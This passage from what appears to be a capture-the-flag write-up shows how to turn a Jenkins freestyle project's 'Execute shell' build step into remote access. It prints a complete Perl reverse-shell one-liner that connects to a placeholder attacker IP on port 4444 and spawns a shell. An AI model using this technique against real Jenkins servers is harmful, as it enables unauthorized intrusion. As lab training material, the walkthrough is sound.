 <br>

There are a couple different **Jenkins** exploits I know but we'll be using the build method here to get a shell.

From the main menu click on **New Item** to create a new build.

Then name it something, select **Freestyle project** and then click **OK**.

<br>

![](images/internal9a.png)

<br>

From there you scroll down to the **Build** section and click **Add build step** then choose **Execute shell**.

<br>

![](images/internal9b.png)

<br>

Over on [**https://www.revshells.com/**](https://www.revshells.com/) you can find code for a **Perl** reverse shell that will work nicely here:

```
perl -e 'use Socket;$i="<MY IP>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```
